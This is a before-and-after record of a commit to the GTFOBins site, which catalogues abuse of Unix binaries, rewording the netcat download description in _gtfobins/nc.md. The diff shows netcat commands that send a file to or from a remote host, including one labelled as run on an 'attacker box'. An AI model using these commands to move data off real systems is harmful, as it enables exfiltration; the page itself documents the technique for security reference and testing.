

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nc.md, in a window 1280 px wide. Shown: the part 886-1172 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix nc download description

```diff
--- a/_gtfobins/nc.md
+++ b/_gtfobins/nc.md
@@ -19,7 +19,7 @@ functions:
         LFILE=file_to_send
         nc $RHOST $RPORT < "$LFILE"
   download:
-    - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
+    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
       code: |
         LPORT=12345
         LFILE=file_to_save
```
